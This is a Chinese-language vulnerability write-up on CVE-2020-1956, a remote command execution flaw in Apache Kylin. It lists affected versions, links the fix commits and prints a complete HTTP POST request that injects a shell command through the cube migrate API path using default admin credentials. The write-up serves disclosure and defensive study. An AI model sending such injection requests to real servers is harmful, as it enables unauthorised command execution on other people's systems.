 （CVE-2020-1956）Apache Kylin 远程命令执行漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

Kylin 2.3.0 - 2.3.2Kylin 2.4.0 - 2.4.1Kylin 2.5.0 - 2.5.2Kylin 2.6.0 - 2.6.5Kylin 3.0.0-alpha, Kylin 3.0.0-alpha2, Kylin 3.0.0-beta, Kylin 3.0.0,
Kylin3.0.1

三、复现过程
------------

### 漏洞分析

在两条commit记录

[KYLIN-4426 Refine
CliCommandExecutor](https://github.com/apache/kylin/commit/9cc3793ab2f2f0053c467a9b3f38cb7791cd436a)

[KYLIN-4426
CliCommandExecutor](https://github.com/apache/kylin/commit/335d61b62517006d7e7b55638bb6fd305dffbea1?diff=split)

可以看到动刀子的位置，应该就是漏洞点的命令执行了，**CubeService**
应该就是命令执行的地方了，然后在
**CliCommandExecutor.checkParameterWhiteList** 做了一些处理。1.png

2.png

所以根据[CubeController](https://github.com/apache/kylin/blob/master/server-base/src/main/java/org/apache/kylin/rest/controller/CubeController.java)，就能找到对应路由了3.jpeg

当然在命令执行的地方触发之前，有几个值判断，因此需要加上这几个东西。4.png

    Copy to clipboardkylin.tool.auto-migrate-cube.enabled=true
    kylin.tool.auto-migrate-cube.src-config=/home/admin/apache-kylin-3.0.1-bin-hbase1x
    kylin.tool.auto-migrate-cube.dest-config=/tmp/kylin.properties

### 漏洞复现

    POST /kylin/api/cubes/kylin_sales_cube/aaa&touch%20l1nk31&/migrate HTTP/1.1
    Host: www.0-sec.org:7070
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:76.0) Gecko/20100101 Firefox/76.0
    Accept: application/json, text/plain, */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Cache-Control: no-cache
    Pragma: no-cache
    Authorization: Basic QURNSU46S1lMSU4=
    Connection: close
    Referer: http://127.0.0.1:7070/kylin/admin
    Cookie: project=null; JSESSIONID=2B1DC2A8566558EFF0E6BD91E5BD630E; _ga=GA1.1.636880978.1585905453; rdt_uuid=22a7eaa3-24d1-441a-b4fd-2f87dfe0197f; _fbp=fb.3.1585905456831.913087212
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 11

    project=aaa

5.png
